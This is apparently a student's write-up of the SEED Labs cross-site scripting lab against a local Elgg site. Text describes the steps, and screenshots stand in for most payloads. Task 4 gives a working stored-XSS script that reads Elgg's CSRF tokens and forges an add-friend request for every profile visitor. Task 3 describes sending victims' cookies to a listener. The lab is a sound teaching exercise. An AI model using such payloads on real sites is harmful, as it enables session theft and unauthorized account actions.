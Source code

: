 ```yaml
---
title: '[SEED labs] Cross-Site Scripting (XSS) Attack Lab Attack Lab'
date: 2021-11-18 17:48
category: 'SEEDlabs'
draft: false
---
```


[Lab Instructions](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf)

## Task 1: Posting a Malicious Message to Display an Alert Window

The objective of this task is to embed a JavaScript program in an `Elgg` profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed.

Log in to Sammy's account and Edit the profile as following using HTML. The following code is an JavaScript program that displays an alert window 'XSS'.

![1-1](./images/XSS/Task 1/1.PNG)

Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When Alice clicks on Samy's Profile, an alert window 'XSS' shows.

![1-2](./images/XSS/Task 1/2.PNG)

This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.

## Task 2: Posting a Malicious Message to Display Cookies

The objective of this task is to embed a JavaScript program in an `Elgg` profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window.

Log in to Sammy's account and Edit the profile as following using HTML. The following code is an JavaScript program that displays the user's cookies in the alert window.

![2-1](./images/XSS/Task 2/1.PNG)

Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When Alice clicks on Samy's Profile, an alert window with Alice's Cookies shows.

![2-2](./images/XSS/Task 2/2.PNG)

This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.

## Task 3: Stealing Cookies from the Victim's Machine

In the previous task, the JavaScript code in Samy's profile printed out the user’s cookies in an alert window, so the attacker could not see it. The purpose of this task is to modify the JavaScript code to send the cookies to the attacker.

Log in to Sammy's account and Edit the profile as following using HTML.

![3-1](./images/XSS/Task 3/1.PNG)

The code is an JavaScript program that has an <img> tag with its src attribute set to localhost. When the code is executed, the browser will try to load the image from the link in the src field, and a HTTP GET request will be sent. The data of the user's cookies will be sent, and the attacker will be able to get the information by using a TCP Server listening to port 5555.

Start a listening TCP connection using the command below.

![3-2](./images/XSS/Task 3/2.PNG)

Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When Alice clicks on Samy's Profile, Alice's Cookies are shown in the Terminal.

![3-3](./images/XSS/Task 3/3.PNG)

This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.

## Task 4: Becoming the Victim's Friend.

The purpose of this attack is to write an Cross-site Scripting Attack that adds Samy as a friend to any other user that visits Samy's profile.

Log in to Charlie's account and Samy as a friend. During the process, Use HTTP Header Live to capture the header sent while adding Samy as a friend.

![4-1](./images/XSS/Task 4/1.PNG)

This is the captured header.

![4-2](./images/XSS/Task 4/2.PNG)

```
http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1637220487&__elgg_token=4PpQ6ZDUkh5PZhhZYvs0nw&__elgg_ts=1637220487&__elgg_token=4PpQ6ZDUkh5PZhhZYvs0nw
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=55ph2nhijjv90btc83laaumpq3
Connection: keep-alive

GET: HTTP/1.1 200 OK
Date: Thu, 18 Nov 2021 07:28:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 364
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json;charset=utf-8
```

Log in to Sammy's account and Edit the profile as following using HTML.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl ="http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
```

![4-3](./images/XSS/Task 4/3.PNG)

The code is an JavaScript program that forges an HTTP requests that adds Samy as a friend to the victim.

In the code, the variable `ts` is a timestamp. The variable `token` is a security token. These variables are a countermeasure against Cross Site Request Forgery attacks. All requests will carry the correct value of these variables. Because Cross Site Requests do not have the correct value, forged requests will be easily identified by the server.

They change every time a page is loaded, so they need to be accessed by Cross Site Scripting attack to get the correct values. The code finds the correct value of `ts` and `token`, uses it to construct the correct HTTP request to add Samy as a friend, and sends the request when executed.

Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When we refresh the page, it shows that Samy is a friend of Alice, even though Alice did not press the "add friend" button.

![4-4](./images/XSS/Task 4/4.PNG)

This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.
